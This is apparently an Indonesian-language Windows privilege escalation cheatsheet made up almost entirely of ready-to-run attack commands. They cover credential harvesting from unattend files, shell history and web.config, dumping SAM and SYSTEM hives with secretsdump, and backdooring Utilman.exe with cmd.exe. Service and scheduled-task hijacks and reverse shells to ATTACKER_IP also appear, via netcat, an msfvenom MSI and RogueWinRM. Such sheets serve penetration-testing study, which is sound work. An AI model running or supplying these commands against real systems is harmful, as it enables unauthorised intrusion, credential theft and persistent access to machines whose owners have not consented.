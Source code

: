 
# 🛠️ Windows Privilege Escalation (Cheatsheet)

## 1. 🧭 ENUMERASI DASAR (t0 – t3)

Langkah awal: kenali sistem, user, network, dan servis.

```cmd
systeminfo
hostname
echo %username%
net users
net user %username%
ipconfig /all
route print
arp -a
netstat -ano
net view
net share
net localgroup
net localgroup administrators
net accounts
```

---

## 2. 🔑 PENGAMBILAN KREDENSIAL

### Unattended Installation Files

Cek lokasi berikut:

```cmd
dir C:\ /s /b | findstr /i unattend
```

Contoh file:

```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\System32\sysprep.inf
```

### PowerShell History

```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Stored Credentials

```cmd
cmdkey /list
runas /savecred /user:Administrator cmd.exe
```

### IIS Web.config

```cmd
findstr /si "password" C:\inetpub\wwwroot\web.config
```

### PuTTY Saved Sessions

```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

---

## 3. ⚙️ QUICK WINS & MISCONFIGURATIONS

### Scheduled Tasks

```cmd
schtasks /query /fo LIST /v
icacls C:\tasks\schtask.bat
```

Jika memiliki hak tulis:

```cmd
echo C:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
schtasks /run /tn vulntask
```

### AlwaysInstallElevated

```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Jika keduanya bernilai `1`, buat file `.msi`:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=4444 -f msi -o shell.msi
msiexec /quiet /qn /i C:\path\to\shell.msi
```

---

## 4. 🛡️ SERVICE MISCONFIGURATION

### Executable Bisa Ditimpa

```cmd
sc qc <service_name>
icacls "C:\Program Files\ServiceFolder\service.exe"
```

### Unquoted Service Path

```cmd
sc qc "vulnservice"
```

Jika path seperti:

```
C:\Program Files\Unquoted Path\app.exe
```

Letakkan payload di:

```
C:\Program.exe
```

### Insecure Service Permissions (DACL)

```cmd
accesschk64.exe -qlc <service_name>
```

Jika Users punya `SERVICE_ALL_ACCESS`:

```cmd
sc config <service_name> binPath= "C:\Users\Public\rev.exe" obj= LocalSystem
sc stop <service_name>
sc start <service_name>
```

---

## 5. 🔐 WINDOWS PRIVILEGES

### SeBackup / SeRestore

```cmd
reg save HKLM\SAM C:\Users\Public\sam.hive
reg save HKLM\SYSTEM C:\Users\Public\system.hive
```

Copy ke attacker dan dump:

```bash
python3 secretsdump.py -sam sam.hive -system system.hive LOCAL
```

### SeTakeOwnership

```cmd
takeown /f C:\Windows\System32\Utilman.exe
icacls C:\Windows\System32\Utilman.exe /grant <username>:F
copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe
```

Trigger:

* Lock screen
* Klik “Ease of Access”

### SeImpersonate / SeAssignPrimaryToken (RogueWinRM)

```cmd
C:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe <ATTACKER_IP> 4442"
```

---

## 6. 🧸 UNPATCHED SOFTWARE

### Cari software dan versinya

```cmd
wmic product get name,version
```

---

## 7. 📀 CONTOH KERNEL EXPLOIT (FuzzySecurity)

### Buffer Overflow di Driver (HackSysExtremeVulnerableDriver)

Langkah:

* Load driver
* Kirim buffer dengan IOCTL panjang
* Overwrite token SYSTEM

---

## ✅ Tips

* Selalu gunakan `icacls` dan `accesschk` untuk validasi akses.
* Periksa apakah service berjalan sebagai SYSTEM dan apakah executable bisa ditulis.
* Jika hak istimewa dimiliki (SeTakeOwnership, SeBackup), langsung cari peluang.
* Gunakan tools enum untuk percepat deteksi vektor eskalasi.
